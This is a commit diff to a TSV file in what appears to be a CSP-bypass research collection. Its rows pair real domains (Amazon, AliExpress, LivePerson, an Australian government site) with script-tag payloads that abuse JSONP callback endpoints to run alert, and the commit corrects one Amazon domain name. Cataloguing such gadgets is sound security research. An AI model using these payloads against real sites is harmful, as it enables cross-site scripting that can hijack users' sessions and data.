

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
update amazon domain to aax-us-east-retail-direct.amazon.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -5,3 +5,3 @@ abr.business.gov.au <script src="https://abr.business.gov.au/json/AcnDetails.asp
 acs.aliexpress.com	<script src="https://acs.aliexpress.com/h5/mtop.aliexpress.address.shipto.division.get/1.0/?type=jsonp&dataType=jsonp&callback=alert"></script>
-aax-us-east-retail-direct	<script src="https://aax-us-east-retail-direct.amazon.com/e/xsp/getAdj?callback=alert(1)-"></script>
+aax-us-east-retail-direct.amazon.com	<script src="https://aax-us-east-retail-direct.amazon.com/e/xsp/getAdj?callback=alert(1)-"></script>
 accdn.lpsnmedia.net	<script src="https://accdn.lpsnmedia.net/api/account/1/configuration/engagement-window/window-confs/1?cb=alert"></script>
```
